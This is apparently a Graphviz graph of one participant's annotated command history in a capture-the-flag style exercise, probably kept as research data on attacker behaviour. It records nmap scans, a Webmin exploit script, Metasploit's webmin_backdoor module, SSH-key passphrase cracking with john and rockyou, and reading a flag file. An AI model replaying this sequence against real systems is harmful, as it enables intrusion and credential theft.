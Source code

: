 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 V0 "]
	2 [label="J8 cd Downloads/ U"]
	3 [label="ls A10 "]
	4 [label="cd Downloads/ U"]
	5 [label="ls A10 "]
	6 [label="sh 47293.sh 172.18.1.5:10000 U"]
	7 [label="bash 47293.sh 172.18.1.5:10000 U"]
	8 [label="nano utok.sh U"]
	9 [label="sh utok.sh 172.18.1.5:10000 U"]
	10 [label="nano utok.sh U"]
	11 [label="msfconsole M2 "]
	12 [label="exit U"]
	13 [label="msfconsole V2 "]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	15 [label="help U"]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	19 [label="ip a U"]
	20 [label="set LHOST 192.168.131.85 V6 "]
	21 [label="exploit V8 "]
	22 [label="exit U"]
	23 [label="quit U"]
	24 [label="exit -y U"]
	25 [label="clear U"]
	26 [label="namp 172.18.1.1/24 U"]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole V2 "]
	32 [label="use unix/webapp/webmin_backdoor V4 "]
	33 [label="set LHOST 192.168.131.85 V6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 V6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit V8 "]
	39 [label="show options V5 "]
	40 [label="curl 172.18.1.5:10000 U"]
	41 [label="exploit V8 "]
	42 [label="clear U"]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	44 [label="nano key.txt U"]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt V16 "]
	60 [label="john --incremental sshjohn.txt V16 "]
	61 [label="ls A10 "]
	62 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	63 [label="clear U"]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	67 [label="ls A10 "]
	68 [label="cd top-secret/ U"]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
